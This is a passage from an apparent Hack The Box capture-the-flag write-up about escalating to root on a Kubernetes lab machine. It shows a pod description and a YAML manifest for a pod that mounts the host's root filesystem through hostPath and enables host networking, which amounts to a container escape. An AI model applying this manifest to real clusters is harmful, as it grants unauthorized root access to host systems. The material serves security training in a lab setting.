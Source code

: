 ```
  - image: nginx:1.14.2
    imagePullPolicy: Never
    name: nginx                               
    resources: {} 
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:                             
    - mountPath: /root
      name: flag
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
      name: kube-api-access-xtzxg             
      readOnly: true
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  nodeName: steamcloud                        
  preemptionPolicy: PreemptLowerPriority
  priority: 0
...[snip]...

```

There’s a ton of information here, but the two key parts I need:
- `namespace` is `default`
- `image` is `nginx:1.14.2`

### Shell as root

#### Strategy

Just like in [Unobtainium](/2021/09/04/htb-unobtainium.html#filesystem-as-root), the trick here is to create a pod (container) that has the root file system mapped into it. Then I can execute in the pod, and access the mapped volume, which is the full file system of the host.

#### Pod Description

I’ll grab the same YAML I used in Unbotainium, and update it for this scenario:

```

apiVersion: v1 
kind: Pod
metadata:
  name: 0xdf-pod
  namespace: default
spec:
  containers:
  - name: 0xdf-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true

```
